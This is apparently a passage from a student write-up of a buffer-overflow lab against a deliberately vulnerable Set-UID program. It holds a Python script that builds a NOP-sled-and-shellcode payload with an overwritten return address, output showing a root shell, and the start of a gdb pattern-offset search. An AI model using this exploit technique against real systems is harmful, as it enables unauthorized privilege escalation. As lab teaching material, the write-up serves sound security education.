 ```python
  "\x99"
  "\xb0\x0b"
  "\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcd98 + 120           # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Run <code>stack-L1</code>:

```console
~/Documents/BufferSetUID/code$ ./stack-L1
Input size: 517
# id
uid=1001(seed) gid=1001(seed) euid=0(root) groups=1001(seed),120(docker)
#
```

Root shell is obtained!

## Task 4: Launching Attack without Knowing Buffer Size (Level 2)

Before comming up with a solution, I created a $1024$-byte random pattern and run in <code>gdb</code>:

```console
gdb-peda$ pattern create 1024 pat-L2
Writing pattern of 1024 chars to filename "pat-L2"
gdb-peda$ run $(cat pat-L2)
Starting program: /home/seed/Documents/BufferSetUID/code/stack-L2-dbg $(cat pat-L2)
Input size: 517

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x90909090 
ECX: 0xffffcff0 --> 0x90909090 
EDX: 0xffffcb1d --> 0x90909090 
ESI: 0xf7faa000 --> 0x1e6d6c 
EDI: 0xf7faa000 --> 0x1e6d6c 
EBP: 0x90909090 
ESP: 0xffffc9d0 --> 0x90909090 
EIP: 0x90909090
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```

[^1]: From Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006.
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.